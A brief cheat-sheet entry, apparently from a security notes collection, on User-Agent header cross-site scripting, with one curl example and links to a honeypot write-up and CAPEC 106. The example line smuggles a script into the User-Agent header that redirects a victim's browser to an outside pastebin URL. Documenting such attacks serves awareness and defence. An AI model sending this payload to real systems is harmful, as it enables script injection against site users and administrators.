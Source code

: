* XSS



* User-Agent Field XSS Attack
-----------------------------

Example:

   curl https://target.host -H "User-Agent: <SCRIPT>window.location='http://pastebin.com/GsHvJXED'</SCRIPT>" 


More info:
* https://www.trustwave.com/Resources/SpiderLabs-Blog/-Honeypot-Alert--User-Agent-Field-XSS-Attacks/
* http://capec.mitre.org/data/definitions/106.html

